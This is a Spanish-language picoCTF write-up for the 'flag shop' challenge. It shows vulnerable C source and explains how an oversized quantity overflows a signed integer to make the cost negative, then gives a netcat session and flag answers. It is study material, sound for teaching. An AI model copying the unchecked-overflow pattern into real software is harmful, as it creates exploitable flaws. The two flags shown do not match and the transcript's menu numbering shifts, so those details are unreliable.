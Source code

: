 #### Descripción

Hay una tienda de banderas que vende cosas, ¿puedes comprar una bandera? [Fuente](https://jupiter.challenges.picoctf.org/static/253c4651d852ac6342752ff222cf2a83/store.c) Conéctese con .`nc jupiter.challenges.picoctf.org 9745` 

Este reto nos proporciona un programa que simula una tienda para comprar banderas. La fuente se proporciona y se encuentra a continuación.

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }   
                }   
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }     
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }
                }
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}
```

Este programa imprime la bandera si compramos una bandera 1337, por lo que nuestro objetivo es comprar la bandera 1337. Podemos comprar la bandera si el saldo de nuestra cuenta es superior a 100000. Desafortunadamente, el saldo de nuestra cuenta comienza en 1100, por lo que tenemos que encontrar una manera de aumentar nuestro saldo. Tras una inspección más detallada, nuestra única forma de cambiar el saldo de la cuenta es restarle .`account_balance = account_balance - total_cost;`

Lo importante que hay que tener en cuenta para resolver este problema es que todos los números de este programa son de tipo int, lo que significa que pueden ser positivos y negativos. También significa que los enteros están enlazados a INT_MIN y INT_MAX porque utilizan un número fijo de bits, normalmente 32 o 64.

Otra cosa importante es el comportamiento de los enteros cuando se pasa INT_MAX y INT_MIN. Sumar dos enteros que dan como resultado un número mayor que INT_MAX se conoce como desbordamiento y es un comportamiento indefinido. Esto que sucede en el lado INT_MIN es un flujo inferior. La mayoría de los números enteros se representan usando [el complemento a dos, ya que](https://en.wikipedia.org/wiki/Two%27s_complement) la suma es una operación idéntica independientemente de si los números son positivos o negativos.

Entonces, ¿cómo se aplica esto a nuestro desafío? Volviendo a la línea, , si hacemos que el coste total sea negativo podemos añadir a nuestro saldo de cuenta para que podamos comprar la bandera. Si miramos más arriba podemos ver cómo podemos controlar .`account_balance = account_balance - total_cost;``total_cost`

```c
scanf("%d", &number_flags);
    if(number_flags > 0){
        int total_cost = 0;
        total_cost = 900*number_flags;
```

Podemos suministrar un número mayor que 0 que luego se multiplica por 900. Como no podemos proporcionar un número negativo, tenemos que proporcionar un número que se desborde cuando se multiplique por 900. Cuando el número se desborda, debe ser negativo, lo que nos permite agregar un número arbitrario al saldo de nuestra cuenta. Elegí usar 2^23 (8388608). Podemos proporcionar esto al programa como se detalla a continuación.

```
$ nc 2019shell1.picoctf.com 63894
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
8388608

The final cost is: -1040187392

Your current balance after transaction: 1040188492

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_818a7f84}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection
3
```

**Respuesta en el formato del concurso:**
picoCTF{m0n3y_bag5_65d67a74}
